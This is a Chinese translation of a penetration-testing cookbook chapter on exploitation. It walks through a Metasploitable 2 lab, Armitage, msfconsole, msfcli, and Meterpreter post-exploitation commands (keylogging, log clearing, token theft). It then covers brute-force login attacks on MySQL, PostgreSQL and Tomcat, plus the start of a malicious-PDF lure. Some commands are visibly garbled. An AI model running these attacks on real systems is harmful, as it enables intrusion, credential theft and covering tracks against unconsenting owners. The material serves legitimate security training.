# 第六章 漏洞利用

> 作者：Willie L. Pritchett, David De Smet

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

一旦我们完成了漏洞扫描步骤，我们就了解了必要的知识来尝试利用目标系统上的漏洞。这一章中，我们会使用不同的工具来操作，包括系统测试的瑞士军刀 Metasploit。

## 6.1 安装和配置 Metasploitable

这个秘籍中，我们会安装、配置和启动 Metasploitable 2。 Metasploitable 是基于 Linux 的操作系统，拥有多种可被 Metasploit 攻击的漏洞。它由  Rapid7 （Metasploit 框架的所有者）设计。Metasploitable 是个熟悉 Meterpreter 用法的极好方式。

### 准备

为了执行这个秘籍，我们需要下列东西：

+   互联网连接

+   VirtualBox PC 上的可用空间

+   解压缩工具（这里我们使用 Windows 上的 7-Zip）

### 操作步骤

让我们开始下载 Metasploitable 2。最安全的选择是从 SourceForge 获取下载包：

1.  从这个链接下载 Metasploitable 2：<http://sourceforge.net/ projects/metasploitable/files/Metasploitable2/>。

2.  将文件包括到硬盘的某个位置。

3.  解压文件。

4.  将文件夹内容放到你储存虚拟磁盘文件的位置。

5.  打开 VirtualBox 并点击`New`按钮：

    
    
6.  点击`Next`。

    
    
7.  输入 Metasploitable 2 的名称并将`Operating System: `选择为`Linux`，`Version: `选项`Ubuntu`。像下面的截图那样点击`Next`。

    

8.  如果可用的话，选择 `512 MB`，并点击`Next`。

    
    
9.  选项现有磁盘，并从你下载和保存 Metasploitable 2 文件夹的地方选择 VDMK 文件。

    
    
0.  你的虚拟磁盘窗口会像下面的截图那样。在这个示例中，我们完全不需要更新磁盘空间。这是因为使用 Metasploitable 的时候，你会攻击这个系统，而并不是将它用作操作系统。

    
    
1.  点击`Create`。

    
    
2.  通过点击 Metasploitable 2 的名称和`Start`按钮来启动它。

### 工作原理

这个秘籍中，我们在 Virtualbox 中配置了 Metasploitable 2。我们以从`Sourceforge.net`下载 Metasploitable 开始这个秘籍，之后我们配置了 VDMK 来在 VirtualBox 中运行并以启动该系统结束。

## 6.2 掌握 Armitage，Metasploit 的图形管理工具

新版本的 Metasploit 使用叫做 Armitage 的图形化前端工具。理解 Armitage 非常重要，因为它通过提供可视化的信息，使你对 Metasploit 的使用变得简单。它封装了 Metasploit 控制台，并且通过使用它的列表功能，你可以一次看到比 Metasploit 控制台或 Meterpreter 会话更多的内容。

### 准备

需要互联网或内部网络的连接。

### 操作步骤

让我们开始操作 Armitage：

1.  从桌面上访问`Start | Kali Linux | Exploitation Tools | Network Exploitation Tools | Armitage`。

    

2.  在 Armitage的登录界面中，点击`Connect`（连接）按钮。

    
    
3.  Armitage 可能需要一些时间来连接 Metasploit。当它完成时，你可能看见下面的提示窗口。不要惊慌，一旦 Armitage 能够连接时，它会消失的。在` Start Metaspoit?`界面，点击`Yes`：

    

4.  随后你会看到 Armitage 的主窗口。我们现在讨论主窗口的三个区域（标记为`A`、`B`和`C`，在下面的截图中）。

    +   `A`：这个区域展示了预先配置的模块。你可以通过模块列表下面的搜索框来搜索。
    
    +   `B`：这个区域展示了你的活动目标，我们能够利用它的漏洞。
    
    +   `C`：这个区域展示了多个 Metasploit 标签页。它允许多个 Meterpreter 或控制台会话同时运行和展示。

    
    
    > 启动 Armitage 的一个自动化方式就是在终端窗口中键入下列命令。
    
    > ```
    > armitage
    > ```
    
### 另见

为了了解更多 Meterpreter 的信息，请见“掌握 Meterpreter”一节。

## 6.3 掌握  Metasploit 控制台（MSFCONSOLE）

这个秘籍中，我们会研究 Metasploit 控制台（MSFCONSOLE）。MSFCONSOLE主要用于管理 Metasploit 数据库，管理会话以及配置和启动 Metasploit 模块。本质上，出于利用漏洞的目的，MSFCONSOLE 能够让你连接到主机，便于你利用它的漏洞。

你可以使用以下命令来和控制台交互：

+   `help`：这个命令允许你查看你尝试运行的命令行的帮助文档。

+   `use module`：这个命令允许你开始配置所选择的模块。

+   `set optionname module`：这个命令允许你为指定的模块配置不同的选项。

+   `exploit`：这个命令启动漏洞利用模块。

+   `run`：这个命令启动非漏洞利用模块。

+   `search module`：这个命令允许你搜索独立模块。

+   `exit`：这个命令允许你退出 MSFCONSOLE。

### 准备

需要互联网或内部网络的连接。

### 操作步骤

让我们开始探索  MSFCONSOLE：

1.  打开命令行。

2.  通过下列命令启动 MSFCONSOLE：

    ```
    msfconsole
    ```
    
3.  通过`search`命令搜索所有可用的 Linux 模块。每次我们打算执行操作时，都搜索一遍模块通常是个好主意。主要因为在 Metasploit 的不同版本之间，模块路径可能发生改变。

    ```
    search linux
    ```
    
    
    
4.  使用 John the Ripper Linux 密码破解模块。

    ```
    use auxiliary/analyzse/jtr_linux
    ```
    
    
    
5.  通过下列命令展示该模块的可用选项。

    ```
    show options
    ```
    
    
    
6.  既然我们列出了可以对这个模块使用的选项，我们可以使用`set`命令来设置独立选项。让我们设置`JOHN_PATH`选项：

    ```
    set JOHN_PATH /usr/share/metasploit-framework/data/john/wordlists/ password.lst
    ```
    
7.  现在执行漏洞利用，我们需要输入`exploit`命令：

    ```
    exploit
    ```
    
### 更多

一旦你通过 MSFCONSOLE 获得了主机的访问，你需要使用 Meterpreter 来分发载荷。MSFCONSOLE 可以管理你的回话，而 Meterpreter 执行实际的载荷分发和漏洞利用工作。

## 6.4 掌握 Metasploit CLI（MSFCLI）

这个秘籍中，我们会探索 Metasploit CLI（MSFCLI）。Metasploit 需要接口来执行它的任务。MSFCLI 就是这样的接口。它是一个极好的接口，用于学习 Metasploit ，或测试/编写新的漏洞利用。它也可用于脚本的情况中，并且对任务使用基本的自动化。

使用 MSFCLI 的一个主要问题是，你只能够一次打开一个 shell。你也会注意到，当我们探索一些命令的时候，它比 MSFCONSOLE 慢并且复杂。最后，你需要知道你打算利用的具体漏洞来使用 MSFCLI。这会使它对于渗透测试新手有些难以使用，他们并不熟悉 Metasploit  漏洞利用列表。

MSFCLI 的一些命令是：

+   `msfcli`：这会加载 MSFCLI 可访问的所有可用漏洞利用列表。

+   `msfcli -h`：显示 MSFCLI 的帮助文档。

+   `msfcli [PATH TO EXPLOIT] [options = value]`：这是执行漏洞利用的语法。

### 准备

需要互联网或内部网络的连接。

### 操作步骤

让我们开始探索  MSFCLI：

1.  使用下列命令启动 Metasploit CLI （MSFCLI）。请耐心等待，因为这可能花一些时间，取决于你的系统速度。同时注意当 MSFCLI 加载完成时，会显示可用的漏洞利用列表。

    ```
    msfcli
    ```
    
    
    
2.  显示 MSFCLI 帮助文档：

    ```
    msfcli -h
    ```
    
    

3.  出于我们的演示目的，我们会执行圣诞树扫描（ Christmas Tree Scan）。我们会选择选项 A 来显示模块高级选项。

    ```
    msfcli auxiliary/scanner/portscan/xmas A
    ```
    
    > 更多圣诞树扫描的信息，请见下面的 URL：<http://en.wikipedia.org/wiki/Christmas_tree_packet>。
    
    
    
4.  此外，你可以列出当前模块的概览，通过使用`S`模式。概览模式是一个极好方式，来查看可用于当前尝试执行的漏洞利用的所有选项。许多选项都是可选的，但是一小部分通常是必须的，它们允许你设置尝试利用哪个目标或端口的漏洞。

    ```
    msfcli auxiliary/scanner/portscan/xmas S
    ```
    
    
    
5.  为了展示可用于此次漏洞利用的选项列表，我们使用`O`模式。选项使用中配置漏洞利用模块的方式。每个利用模块都用不同的选项集合（或者什么都没有）。任何所需的选项必须在漏洞利用执行之前设置。在下面的截图中，你会注意到许多所需选项都设为默认。如果你碰到了这种情况，你就不需要更新选项的值，除非你打算修改它。

    ```
    msfcli auxiliary/scanner/portscan/xmas O
    ```
    
    
    
6.  我们使用`E`模式来执行漏洞利用。

    ```
    msfcli auxiliary/scanner/portscan/xmas E
    ```
    
    > 这里，我们使用了默认选项。
    
### 工作原理

这个秘籍中，我们以启动 MSFCLI 开始，之后搜索可用的模块，并执行该模块。在搜索的过程中，我们选修了圣诞树扫描模块并复查了 MSFCLI 界面来查看模块概览和所有可用选项。在设置完所有选项之后，我们执行了漏洞利用。

了解 Metasploit 框架分为三个不同的部分非常重要。这些部分是：

+   漏洞：这些都是弱点，要么已知要么位置。它们包含在特定的应用、阮家宝或协议中。在 Metasploit 中，漏洞按照分组，和漏洞利用列出，漏洞利用可以攻击列在它们下面的漏洞。

+   漏洞利用：漏洞利用是用来利用所发现漏洞的模块。

+   载荷：一旦成功执行了漏洞利用，必须把载荷传给被攻击的机器，以便允许我们创建 shell，运行各种命令，添加用户以及其它。

一旦你通过 MSFCONSOLE 获得了主机的访问，你需要使用 Meterpreter 来分发载荷。MSFCONSOLE 可以管理你的会话，而 Meterpreter 执行实际的载荷分发和漏洞利用工作。

## 6.5 掌握 Meterpreter

一旦你使用 Armitage，MSFCLI 或 MSFCONSOLE 获得了主机的访问权，你必须使用 Meterpreter 来传递你的载荷。MSFCONSOLE 可以管理你的会话，而 Meterpreter 执行实际的载荷分发和漏洞利用工作。

一些用于 Meterpreter 的常用命令包括：

+   `help`：这个命令允许你浏览帮助文档。

+   `background`：这个命令允许你在后台运行 Meterpreter 会话。这个命令也能为你带回 MSF 提示符。

+   `download`：这个命令允许你从受害者机器中下载文件。

+   `upload`：这个命令允许你向受害者机器上传文件。

+   `execute`：这个命令允许你在受害者机器上运行命令。

+   `shell`：这个命令允许你在受害者机器上运行 Windows shell 提示符（仅限于 Windows 主机）。

+   `session -i`：这个命令允许你在会话之间切换。

### 准备

需要满足下列要求：

+   内部网络或互联网的连接。

+   使用 Armitage，MSFCLI 或 MSFCONSOLE 由 Metasploit 创建好的，目标系统的活动会话。

### 操作步骤

让我们打开 MSFCONSOLE 来开始：

1.  首先我们以 MSFCONSOLE 中展示的活动会话开始。

2.  开始记录目标系统中用户的击键顺序：

    ```
    keyscan_start 
    ```
    
3.  转储目标系统中用户的击键顺序。击键顺序会显示在屏幕上：

    ```
    keyscan_dump 
    ```
    
4.  停止记录目标系统中用户的击键顺序。

    ```
    keyscan_stop 
    ```
    
5.  删除目标系统中的文件。

    ```
    del exploited.docx 
    ```
    
6.  清除目标系统中的事件日志。

    ```
    clearav 
    ```
    
7.  展示运行进程的列表。

    ```
    ps
    ```
    
8.  杀掉受害者系统的指定进程，使用`kill [pid]`语法。

    ```
    kill 6353
    ```
    
9.  尝试偷取目标系统上的模拟令牌。

    ```
    steal_token 
    ```
    
### 工作原理

我们以通过 Armitage，MSFCLI 或 MSFCONSOLE 预先建立的 Meterpreter 会话来开始。之后我们在目标机器上运行了多种命令。

### 更多

当我们对基于 Linux 主机使用 Meterpreter 的时候，我们能够在它上面运行 Linux 命令，就像我们操作这台机器那样。

## 6.6 Metasploitable MySQL

这个秘籍中，我们会探索如何使用 Metasploit 来攻击 MySQL 数据库服务器，使用 MySQL 扫描器模块。MySQL 是许多网站平台的选择，包括 Drupal 和 Wordpress，许多网站当前正在使用 MySQL 数据库服务器。这会使它们更容易成为 Metasploitable MySQL 攻击的目标。

### 准备

需要满足下列要求：

+   内部网络的连接。

+   运行在渗透环境中的 Metasploitable 。

+   用于执行字典攻击的单词列表。

### 操作步骤

让我们通过打开终端窗口来开始  MySQL 攻击：

1.  打开终端窗口。

2.  启动 MSFCONSOLE。

    ```
    msfconsole 
    ```
    
3.  搜索可用的 MySQL 模块。

    ```
    msfconsole mysql
    ```
    
    
    
4.  使用 MySQL 扫描器模块。

    ```
    use auxiliary/scanner/mysql/mysql_login
    ```
    
    
    
5.  显示模块的可用选项。

    ```
    show options
    ```
    
    
    
6.  将 RHOST 设置为 Metasploitable 2 主机或目标主机的地址。

    ```
    set RHOST 192.168.10.111 
    ```
    
7.  设置用户名文件的位置。你可以选择：

    ```
    set user_file /root/Desktop/usernames.txt
    ```
    
8.  设置密码文件的位置。你可以选择：

    ```
    set pass_file /root/Desktop/passwords.txt
    ```
    
9.  执行漏洞利用：

    ```
    Exploit
    ```
    
    
    
0.  Metasploit 会尝试输入包含在两个文件中的所有用户名和密码组合。找到生效的登录和密码组合旁边的`+`符号就可以了。
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 来利用   Metasploitable 2 靶机上的 MySQL 漏洞。我们以启动控制台并搜索所有已知的 MySQL 模块来开始。在选择 MySQL 登录利用模块之后，我们设置了选项并执行了漏洞利用，这让我们能够爆破 MySQL 登录。Metasploit 使用提供的用户名和密码文件。并尝试爆破 MySQL 数据库。

### 更多

这个秘籍中，我们使用了自己生成的用户名和密码文件。有许多方法可以生成用户名和密码单词列表，这些方法在第八章中涉及。

## 6.7 Metasploitable PostgreSQL

这个秘籍中，我们会探索如何使用 Metasploit 来攻击 PostgreSQL 数据库服务器，使用 PostgreSQL 扫描器模块。PostgreSQL 被誉为全世界最先进的开源数据库，许多爱好者声称它是企业级的数据库。我们会使用 Metasploit 来爆破 PostgreSQL 登录。

### 准备

需要满足下列要求：

+   内部网络的连接。

+   运行在渗透环境中的 Metasploitable 。

+   用于执行字典攻击的单词列表。

### 操作步骤

让我们通过打开终端窗口来开始 PostgreSQL 攻击：

1.  打开终端窗口。

2.  启动 MSFCONSOLE。

    ```
    msfconsole 
    ```
    
3.  搜索可用的 PostgreSQL 模块。

    ```
    msfconsole postgresql
    ```
    
    
    
4.  使用 PostgreSQL 扫描器模块。

    ```
    use auxiliary/scanner/mysql/postgres_login
    ```
    
    
    
5.  显示模块的可用选项。

    ```
    show options
    ```
        
6.  将 RHOST 设置为 Metasploitable 2 主机或目标主机的地址。

    ```
    set RHOST 192.168.10.111 
    ```
    
7.  设置用户名文件的位置。你可以选择：

    ```
    set user_file /root/Desktop/usernames.txt
    ```
    
8.  设置密码文件的位置。你可以选择：

    ```
    set pass_file /root/Desktop/passwords.txt
    ```
    
9.  执行漏洞利用：

    ```
    Exploit
    ```
        
0.  Metasploit 会尝试输入包含在两个文件中的所有用户名和密码组合。找到生效的登录和密码组合旁边的`+`符号就可以了。
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 来利用   Metasploitable 2 靶机上的 PostgreSQL 漏洞。我们以启动控制台并搜索所有已知的 PostgreSQL 模块来开始。在选择 PostgreSQL 登录利用模块之后，我们设置了选项并执行了漏洞利用，这让我们能够爆破 PostgreSQL 登录。Metasploit 使用提供的用户名和密码文件。并尝试爆破 PostgreSQL 数据库。之后找到生效的登录和密码组合旁边的`+`符号就可以了。

### 更多

这个秘籍中，我们使用了默认的 PostgreSQL  用户名和密码文件。然而我们也可以创建自己的文件。有许多方法可以生成用户名和密码单词列表，这些方法在第八章中涉及。

## 6.8 Metasploitable Tomcat

这个秘籍中，我们会探索如何使用 Metasploit 攻击 Tomcat 服务器，使用 Tomcat Manager Login 模块。Tomcat，或 Apache Tomcat，是开源的 Web 服务器，和 Servlet 容器，用于运行 Java Servt 和 JSP。Tomcat 服务器纯粹使用 Java 编写。我们会使用 Metasploit 来爆破 Tomcat 的登录。

### 准备

需要满足下列要求：

+   内部网络的连接。

+   运行在渗透环境中的 Metasploitable 。

+   用于执行字典攻击的单词列表。

### 操作步骤

让我们通过打开终端窗口来开始这个秘籍：

1.  打开终端窗口。

2.  启动 MSFCONSOLE。

    ```
    msfconsole 
    ```
    
3.  搜索可用的 Tomcat 模块。

    ```
    msfconsole tomcat
    ```
    
    
    
4.  使用 Tomcat Application Manager Login Utility。

    ```
    use auxiliary/scanner/http/tomcat_mgr_login 
    ```
    
5.  显示模块的可用选项。

    ```
    show options
    ```
    
    > 要注意我们有很多设置为“是”的项目，它们都是必须的。我们使用它们的默认值。
        
6.  设置`Pass_File`：

    ```
    PASS_FILE meset /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_pass.txt
    ```
    
7.  设置`Pass_File`：

    ```
    USER_FILE mset /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_pass.txt
    ```

8.  设置目标的`RHOST`，这里我们选择我们的 Metasploitable 2 主机：

    ```
    set RHOSTS 192.168.10.111
    ```
    
9.  将`RPORT`设置为 8180：

    ```
    set RPORT 8180
    ```
    
0.  执行漏洞利用：

    ```
    Exploit
    ```
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 来利用   Metasploitable 2 靶机上的 Tomcat 漏洞。我们以启动控制台并搜索所有已知的 Tomcat 模块来开始。在选择 Tomcat 登录利用模块之后，我们设置了选项并执行了漏洞利用，这让我们能够爆破 Tomcat 登录。Metasploit 使用提供的用户名和密码文件。并尝试爆破 Tomcat 数据库。之后找到生效的登录和密码组合旁边的`+`符号就可以了。

## 6.9 Metasploitable PDF

这个秘籍中，我们会探索如何使用 Metasploit 来执行攻击，使用 Adobe PDF 内嵌模块来利用 PDF 文档漏洞。Adobe PDF 是文档传输的标准。由于它的广泛使用，尤其是由于它的商业用途，我们会通过让用户认为他们打开了来自求职岗位的正常 PDF 文档来攻击用户的机器。

### 准备

需要满足下列要求：

+   内部网络的连接。

+   运行在渗透环境中的 Metasploitable 。

+   用于执行字典攻击的单词列表。

### 操作步骤

让我们通过打开终端窗口来开始这个秘籍：

1.  打开终端窗口。

2.  启动 MSFCONSOLE。

    ```
    msfconsole 
    ```
    
3.  搜索可用的 PDF 模块。

    ```
    msfconsole pdf
    ```
    
    
    
4.  使用 PDF 内嵌模块：

    ```
    use exploit/windows/fileformat/adobe_pdf_embedded_exe 
    ```
    
5.  显示模块的可用选项。

    ```
    show options
    ```
    
